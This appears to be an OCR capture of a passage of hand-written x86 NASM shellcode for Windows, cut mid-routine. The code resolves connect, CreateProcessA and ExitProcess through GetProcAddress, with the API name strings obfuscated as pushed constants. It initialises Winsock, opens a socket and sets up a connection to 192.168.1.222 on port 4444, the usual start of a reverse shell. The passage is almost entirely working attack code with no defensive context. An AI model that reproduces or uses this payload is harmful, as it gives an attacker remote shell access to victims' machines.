 ```nasm
push esp
push ecx
call edi

mov [esi + 0x8], eax                  ; esi at offset 0x8 will now hold the address of connect

; use GetProcAddress to get the location of CreateProcessA
push 0x61614173 
sub word [esp + 0x2], 0x6161
push 0x7365636f
push 0x72506574
push 0x61657243
push esp
push ebx
call edi

mov [esi + 0xc], eax                   ; esi at offset 0xc will now hold the address of CreateProcessA

; use GetProcAddress to get the location of ExitProcess
push 0x61737365
sub dword [esp + 0x3], 0x61
push 0x636f7250
push 0x74697845
push esp
push ebx
call edi 

mov [esi + 0x10], eax                  ; esi at offset 0x10 will now hold the address of ExitProcess

; call WSAStartup
xor edx, edx
mov dx, 0x0190
sub esp, edx
push esp
push edx
call dword [esi]

; call WSASocketA
push eax                              ; still null from our return code of WSAStartup :)
push eax
push eax
xor edx, edx
mov dl, 0x6
push edx
inc eax
push eax
inc eax
push eax
call dword [esi + 0x4]



; call connect
push 0xde01a8c0                      ; sin_addr set to 192.168.1.222
push word 0x5c11                     ; port = 4444
xor ebx, ebx
add bl, 0x2
push word bx
mov edx, esp
push byte 16
push edx
```